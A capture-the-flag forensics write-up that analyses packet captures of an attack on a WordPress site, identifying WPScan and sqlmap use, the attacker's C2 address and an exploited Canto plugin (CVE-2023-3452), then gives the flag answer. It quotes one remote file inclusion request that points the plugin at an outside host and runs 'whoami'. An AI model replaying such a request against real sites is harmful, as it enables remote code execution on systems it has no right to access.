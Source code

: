 # WordPress - 3
[Hard]

Same file from WordPress - 1

Q1. Mention the names of the tools that the attacker used in the attack. (alphabetical order)

Q2. There was a vulnerable plugin that the attacker exploited. What is the C2 server of the attacker, and what is the name of the plugin?

Q3. What is the version of the vulnerable plugin, and what is the CVE number associated with that plugin?

Flag Format `0xL4ugh{A1_A2_A3}`

Example: `0xL4ugh{tool1_tool2_C2_PluginName_1.2.3_CVE--}`

---

Solution:

I used `(ip.src == 192.168.204.132) && http.request` to check the requests from the attacker again...

![image](3_1.png)

Most, if not all, tools out there makes use of the `User-Agent` for tagging

So we have `User-Agent: WPScan v3.8.25 (https://wpscan.com/wordpress-security-scanner)\r\n`

The last couple of packets has the following...

![image](3_2.png)

`User-Agent: sqlmap/1.7.12#stable (https://sqlmap.org)\r\n`

So Q1 is `sqlmap_WPScan`

For Q2, I tried to look for `plugin` related attacks but couldn't find any using the filter earlier.

So I used `(http) && !(http.host == "tlu.dl.delivery.mp.microsoft.com" || tcp.dstport == 80) && (ip.src == 192.168.204.128)` (excluded Microsoft related requests)

The last few packets are interesting...

![image](3_3.png)

A reuqest was done to `http://192.168.204.128/wordpress/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.26.211.155:8000&cmd=whoami`

This is likely the vulnerable plugin!

So the answer for Q2 is `172.26.211.155:8000_canto`

Finally, let's go to Q3!

Searching for `"canto" "wp_abspath"` lead to the following:

https://nvd.nist.gov/vuln/detail/CVE-2023-3452
https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/canto/canto-304-unauthenticated-remote-file-inclusion

I couldn't find any mention of the canto version in the network requests, so I decided to use the version mentioned in the advisory: `3.0.4_CVE-2023-3452`

So overall, the flag is `0xL4ugh{sqlmap_WPScan_172.26.211.155:8000_canto_3.0.4_CVE-2023-3452}`

However, it didn't work, so I tried to remove the port number from the C2 in case the author wants the IP address only....

Flag: `0xL4ugh{sqlmap_WPScan_172.26.211.155_canto_3.0.4_CVE-2023-3452}`
and it worked! lol












